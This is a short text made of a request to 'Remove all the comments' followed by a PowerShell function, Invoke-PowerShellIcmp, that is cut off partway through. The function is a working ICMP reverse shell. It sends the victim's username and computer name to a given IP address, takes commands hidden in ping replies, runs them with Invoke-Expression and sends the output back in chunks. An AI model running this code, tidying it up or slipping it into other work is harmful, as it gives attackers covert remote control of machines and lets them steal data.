 Remove all the comments:

```
function Invoke-PowerShellIcmp
{ 
    [CmdletBinding()] Param(

        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,

        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
        $BufferSize = 128

    )

    $ICMPClient = New-Object System.Net.NetworkInformation.Ping
    $PingOptions = New-Object System.Net.NetworkInformation.PingOptions
    $PingOptions.DontFragment = $True

    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null

    while ($true)
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes('')
        $reply = $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions)

        if ($reply.Buffer)
        {
            $response = ([text.encoding]::ASCII).GetString($reply.Buffer)
            $result = (Invoke-Expression -Command $response 2>&1 | Out-String )
            $sendbytes = ([text.encoding]::ASCII).GetBytes($result)
            $index = [math]::floor($sendbytes.length/$BufferSize)
            $i = 0

            if ($sendbytes.length -gt $BufferSize)
            {
                while ($i -lt $index )
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..(($i+1)*$BufferSize-1)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                    $i +=1
                }
                $remainingindex = $sendbytes.Length % $BufferSize
                if ($remainingindex -ne 0)
                {
                    $sendbytes2 = $sendbytes[($i*$BufferSize)..($sendbytes.Length)]
                    $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes2, $PingOptions) | Out-Null
                }
            }
            else
            {
                $ICMPClient.Send($IPAddress,60 * 10000, $sendbytes, $PingOptions) | Out-Null
```